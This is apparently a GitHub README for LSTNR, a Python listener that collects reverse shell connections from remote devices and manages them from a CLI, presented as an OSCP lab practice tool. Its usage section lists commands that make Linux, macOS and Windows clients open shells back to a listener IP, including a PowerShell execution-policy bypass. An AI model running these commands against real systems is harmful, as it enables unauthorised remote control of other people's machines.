 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:

<img width="736" alt="Screenshot 2025-01-03 at 6 34 33 PM" src="https://github.com/user-attachments/assets/6dc676a0-4af2-4eb3-b3df-8ecd42e274dd" />
   
<img width="666" alt="Screenshot 2025-01-03 at 6 35 10 PM" src="https://github.com/user-attachments/assets/68d38103-f333-4525-9a56-f82b1b09c7cc" />
